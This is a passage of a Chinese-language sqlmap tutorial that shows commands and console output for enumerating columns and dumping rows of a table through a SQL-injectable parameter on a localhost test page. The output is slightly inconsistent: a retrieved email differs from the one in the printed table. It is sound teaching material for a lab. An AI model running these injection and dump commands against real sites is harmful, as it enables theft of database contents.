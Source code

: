 ```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id -D test -T email --columns

...

[12:15:02] [INFO] fetching columns for table 'email' in database 'test'
[12:15:04] [INFO] the SQL query used returns 2 entries
[12:15:06] [INFO] retrieved: userid
[12:15:08] [INFO] retrieved: varchar(16)
[12:15:11] [INFO] retrieved: email
[12:15:14] [INFO] retrieved: varchar(32)
Database: test
Table: email
[2 columns]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| email  | varchar(32) |
| userid | varchar(16) |
+--------+-------------+

[12:15:30] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:15:30
```

### 获取记录

`--dump`用于获取记录，使用`-C`指定列名的话是获取某一列的记录，不指定就是获取整个表。

```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id -D test -T email --dump

...

[12:16:59] [INFO] fetching columns for table 'email' in database 'test'
[12:16:59] [INFO] the SQL query used returns 2 entries
[12:16:59] [INFO] resumed: userid
[12:16:59] [INFO] resumed: varchar(16)
[12:16:59] [INFO] resumed: email
[12:16:59] [INFO] resumed: varchar(32)
[12:16:59] [INFO] fetching entries for table 'email' in database 'test'
[12:17:01] [INFO] the SQL query used returns 2 entries
[12:17:04] [INFO] retrieved: test2@example.com
[12:17:06] [INFO] retrieved: 123
[12:17:08] [INFO] retrieved: wizard.z@qq.com
[12:17:10] [INFO] retrieved: 233837063867287
[12:17:10] [INFO] analyzing table dump for possible password hashes
Database: test
Table: email
[2 entries]
+-----------------+-------------------+
| userid          | email             |
+-----------------+-------------------+
| 123             | test2@example.com |
| 233837063867287 | test@example.com  |
+-----------------+-------------------+

[12:17:10] [INFO] table 'test.email' dumped to CSV file 'C:\Users\asus\.sqlmap\output\localhost\dump\test\email.csv'
[12:17:10] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:17:10
```
